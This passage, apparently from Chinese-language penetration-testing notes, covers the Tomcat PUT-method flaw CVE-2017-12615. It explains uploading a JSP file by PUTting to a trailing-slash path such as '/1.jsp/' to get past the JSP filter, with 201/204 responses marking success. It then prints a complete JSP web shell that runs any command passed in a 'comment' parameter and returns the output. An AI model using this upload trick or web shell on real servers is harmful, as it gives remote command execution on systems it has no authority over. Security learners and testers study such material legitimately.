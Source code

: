 2. 需要用户发布文章的权限

## Tomcat代码执行漏洞 CVE-2017-12615

因为开启了put方法, 导致可向服务器传jsp马, 期间涉及到对apache不允许直接传jsp文件的绕过, post到路径`/1.jsp/`

, 出现响应码201/204则代表上传成功, 以后每一次PUT的内容会覆盖之前的内容.

> 然而并不清楚怎么知晓服务器支持put方法, 使用option是会报错的; 
>
> 只是之前用awvs扫描的时候看见过此类漏洞, 根本上讲还是put方法的锅, bypass什么的都只是tricks 

**代码**

```jsp
<%@ page import="java.util.*,java.io.*"%> <% %> 
<HTML><BODY> <FORM METHOD="GET" NAME="comments" ACTION="">
<INPUT TYPE="text" NAME="comment"> 
<INPUT TYPE="submit" VALUE="Send"> 
</FORM> <pre> 
<%
 if ( request.getParameter( "comment" ) != null )
 {
	 out.println( "Command: " + request.getParameter( "comment" ) + "<BR>" );
	 Process p		= Runtime.getRuntime().exec( request.getParameter( "comment" ) );
	 OutputStream os	= p.getOutputStream();
	 InputStream in		= p.getInputStream();
	 DataInputStream dis	= new DataInputStream( in );
	 String disr		= dis.readLine();
	 while ( disr != null )
	 {
		 out.println( disr ); disr = dis.readLine();
	 }
 }
 %>
 </pre> 
 </BODY></HTML>
```

![1564278797172](IMG/1564278797172.png)
